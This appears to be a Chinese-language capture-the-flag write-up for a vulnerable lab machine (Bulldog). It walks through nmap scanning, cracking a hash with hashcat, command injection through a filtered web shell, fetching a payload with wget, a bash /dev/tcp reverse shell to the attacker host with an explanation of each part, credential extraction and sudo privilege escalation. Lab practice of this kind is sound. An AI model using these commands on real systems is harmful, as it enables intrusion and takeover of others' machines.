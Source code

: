 
## 靶机信息

- 级别:容易/中级


## Recon
### nmap
```shell
nmap -sn 192.168.1.0/24
//IP:192.168.1.157
sudo nmap --min-rate 10000 -sT -p- 192.168.1.157 -oA tcp_scan/ports
PORT     STATE SERVICE
23/tcp   open  telnet
80/tcp   open  http
8080/tcp open  http-proxy
```


## Web
![[Pasted image 20231015140807.png]]
view-source:http://192.168.1.157/dev/
![[Pasted image 20231015141250.png]]
```shell
hashcat -m 100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt -o hash_crack.txt
爆出 ddf45997a7e18a25ad5f5cf222da64814dd060d5:bulldog
//得到一组凭证 nick，bulldog
```

```shell
http://192.168.1.157/admin/
nick,bulldog //成功登录
```

![[Pasted image 20231015145356.png]]
此时转到http://192.168.1.157/dev/shell/即可使用shell
![[Pasted image 20231015145500.png]]
此时尝试命令发现很多命令不能使用，提示可以用echo
![[Pasted image 20231015150032.png]]
```shell
echo $(wget http://192.168.1.136/shell.php) //成功执行wget
echo $(chmod +x shell.php)
echo $(./shell.php)
多次尝试后发现无法执行php的shell
用sh写一个反弹shell
bash -i >& /dev/tcp/192.168.1.136/1234 0>&1
1. `bash -i`：启动一个交互式的 Bash shell。 `-i` 标志表示交互式模式，它允许用户与shell进行实时的输入和输出。
    
2. `>& /dev/tcp/192.168.1.136/1234`：这部分将 Bash shell 的标准输出和标准错误重定向到指定的网络套接字。 `/dev/tcp/192.168.1.136/1234` 指定要连接的远程服务器的 IP 地址和端口。这将导致所有的 shell 输出被发送到指定的 IP 地址和端口。
    
3. `0>&1`：这部分将标准输入（0）重定向到标准输出（1），这样用户可以从远程服务器的输入通道接收数据。

webnshell中 bash shell.sh 即可反弹shell 
```

## 提权

```shell
/home/bulldogadmin/.hiddenadmindirectory
```
![[Pasted image 20231015182113.png]]
note文件中看到提示
```shell
strings customPermissionApp
//得到一组凭证,django，SUPERultimatePASSWORDyouCANTget
```
![[Pasted image 20231015182236.png]]

```shell
ssh -p 23 django@192.168.1.157
PASSWD: SUPERultimatePASSWORDyouCANTget
sudo -l
```
![[Pasted image 20231015182758.png]]
```
三个ALL 直sudo su 即可提权
```
![[Pasted image 20231015182838.png]]
